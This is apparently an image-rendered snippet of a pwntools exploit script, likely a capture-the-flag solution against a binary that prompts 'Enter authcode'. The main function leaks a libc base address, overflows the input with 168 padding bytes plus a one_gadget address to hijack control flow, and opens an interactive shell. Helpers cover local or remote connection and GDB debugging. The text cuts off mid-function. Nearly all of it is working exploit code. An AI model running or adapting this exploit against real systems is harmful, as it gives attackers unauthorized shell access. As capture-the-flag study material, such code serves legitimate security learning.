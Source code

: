 ```python

def main():
    io = start_conn()

    libc_leak_offset = 0x1255E0
    io.recvuntil("0x7")
    leak = b'7' + io.recvuntil("0x")[:-2]
    libc_base = int(leak, 16) - libc_leak_offset
    print(f'[*] Leaked libc base: {hex(libc_base)}')
    validate_leaked_addresses(io, libc_base=libc_base)

    one_gadget_offset = 0x4f29e
    one_gadget_offset = 0x4f2a5
    # one_gadget_offset = 0x4f302
    # one_gadget_offset = 0x10a2fc

    one_gadget = libc_base + one_gadget_offset

    ret_offset = 168
    io.sendlineafter("Enter authcode: ", b"A" * ret_offset + p64(one_gadget))

    io.interactive()
    clean_up()







### Helper start

def start_conn():
    if args.REMOTE:
        log.info(Template('Starting with remote connection to $HOST on port $PORT...').substitute(HOST=sys.argv[1], PORT=sys.argv[2]))
        io = remote(sys.argv[1], sys.argv[2])
    else:
        log.info('Starting locally...')
        io = process([exe.path], env=ENV_VARS)
        if args.GDB:
            log.info('Starting with GDB...')
            gdb.attach(io, gdbscript=gdbscript, exe=exe.path)
    return io


def get_string_between(res, first_const_str, second_const_str):
    return res.split(first_const_str)[1].split(second_const_str)[0]


def get_mapping_offset(proc_mapping, search_for):
    heap_offset = 0
    for i, mapping in enumerate(proc_mapping):
        if search_for in mapping:
            heap_offset = i
            break
    return heap_offset


def validate_leaked_addr(proc_mapping, offset, given_addr, addr_name):
    true_base = int(proc_mapping[offset].split('-')[0], 16)
    if int(given_addr) != true_base:
        log.critical(
```